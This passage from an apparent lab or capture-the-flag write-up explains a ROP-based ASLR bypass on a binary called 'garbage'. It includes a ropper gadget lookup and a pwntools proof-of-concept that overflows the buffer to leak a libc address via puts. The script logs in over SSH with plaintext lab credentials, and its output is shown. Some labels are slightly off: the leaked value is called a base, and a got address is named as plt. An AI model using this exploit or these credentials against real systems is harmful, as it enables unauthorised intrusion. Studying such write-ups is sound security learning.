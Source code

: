 This means we have to bypass ASLR and NX. To bypass ASLR we require a memory leak. Since we are not dealing with a position independent executable (PIE), we can call puts inside the procedure lookup table (plt) to leak the address of an entry in the global offset table (got), which would lead to us getting the base of libc.

To begin we retrieve some addresses of functions that are relevant for our exploit. On the x64 architecture rdi holds the first argument to functions, so we need that gadget to prepare arguments for any function we want to call. We use ropper to retrieve the gadgets address:

```
ropper --file garbage  | grep "pop"
0x000000000040179b: pop rdi; ret;
```

We also need the address of puts in the plt ("0x404028″) which we can read in IDA following any puts call in the binary. We also write down the address of main (0x401619"), so that after our leak we can jump back to do another overflow.

After obtaining all information we need for the next step, lets summarize what we want to do. We send a long password, overwriting the return pointer to start a rop chain. The chain places the got entry of puts into rdi (a pointer to its libc address) so that we can call puts with it, printing out the address of puts inside libc to us. Afterwards we jump back to main, allowing us to execute the exploit again with a different payload.

This leads to he following POC:

```
from pwn import *

pop_rdi = 0x000000000040179b
puts_plt = 0x0000000000404028
main = 0x0000000000401619
puts = 0x0000000000401050

def leak_libc(p):
    exploit = 'A'*136 + p64(pop_rdi) + p64(puts_plt) + p64(puts) + p64(main) # return to main after exploitation
    p.recvuntil('password:')
    p.sendline(exploit)
    p.recvline()
    p.recvline()
    x = p.recvline()
    print(repr(x))
    data = x.strip().split('\n')
    address = data[-1] + '\x00\x00'
    return u64(address)

s = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
p = s.process('/usr/bin/garbage')
base = leak_libc(p)
print(hex(base))
```

```
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process '/usr/bin/garbage' on 10.10.10.139: pid 1842
'\xc0\xe9"\x89\x9a\x7f\n'
0x7f9a8922e9c0
```
